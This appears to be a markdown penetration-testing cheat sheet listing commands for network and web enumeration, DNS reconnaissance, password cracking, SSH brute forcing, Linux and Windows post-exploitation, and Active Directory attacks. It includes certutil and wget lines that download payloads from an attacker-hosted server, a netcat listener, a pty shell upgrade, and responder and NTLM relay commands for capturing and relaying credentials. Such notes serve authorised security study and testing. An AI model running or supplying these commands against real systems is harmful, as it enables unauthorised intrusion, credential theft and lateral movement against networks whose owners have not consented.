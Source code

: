 ## Enumeration  

ip a  

arp-scan -l

showmount -e [server ip]

mount -t nfs [server ip]:[remote path shown from showmount] [to local mount point]

nmap -sV -A -T4 -p- 

nmap -sV -A -T4 --top-ports 500 [target]

nmap --sC ? 

nmap -p- --script vuln [target]

nmap --top-ports 500 --script vuln [target]

gobuster dir -u http://[IPaddress] -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --no-error -v | grep "Status: 200"

gobuster dir -u http://[IPaddress] -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --no-error

assetfinder example.com

assetfinder --subs-only example.com

python -V 

## Web Enumeration

Curl -I http://[target]

nikto -h http://[IPaddress:8080]

## DNS enumeration (workflow)

dig -x [IP]

nslookup [IP]

dnsrecon -r [IP range/24]

dnsrecon -r [target IP range/24 it belongs to] -n [targetIP]

## Cracking
Zip files: fcrackzip -v -u -D -p /usr/share/wordlists/rockyou.txt [target.zip]

NTLM# hash: hashcat -m 5600 file.txt /usr/share/wordlists/rockyou.txt --force

    ntlm# will dictate the specific module -m required to be set for the cracking.  
    in virtual machine intances --force may be required.  

hash-identifier

## Brute forcing
Hydra

nmap -p 22 --script ssh-brute --script-args="userdb=/path/to/username_wordlist.txt,passdb=/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt" 192.168.64.137


## Linux Post Exploitation
history

pwd

sudo -l

crontab -l

**Linux wget and curl commands**

wget http://192.168.64.137:8000/linpeas.sh -O linpeas.sh

🔼 Upgrading to an interactive shell using python  
python -c 'import pty; pty.spawn("/bin/bash")'

## Windows Post Exploitation
cd

whoami

ipconfig

dir

sc stop [application]

sc start [application]

sc query [application]

certutil.exe -urlcache -f http://[attackerip]:8000/[application.exe] [applicationname.exe]

## Listener
nc -nlvp [port]

## Directory hosting
python -m SimpleHTTPServer

## Active Directory Attacks  

(Captures) LLMNR attacks  
sudo responder -I eth0 -dwv

(Relays) SMB attack  
sudo responder -I eth0 -dPv

(Relay authentication into targets | -i interacive shell | -c command execution)  
Impacket-ntlmrelax -tf targets.txt -smb2support -i 

**Identify hosts without SMB signing:** nmap --script=smb2-security-mode.nse -p445 10.0.0.0/24 -Pn  
In the event initial scanning of a known target presents no results adding -Pn will still scan the target and provide information regardless. 






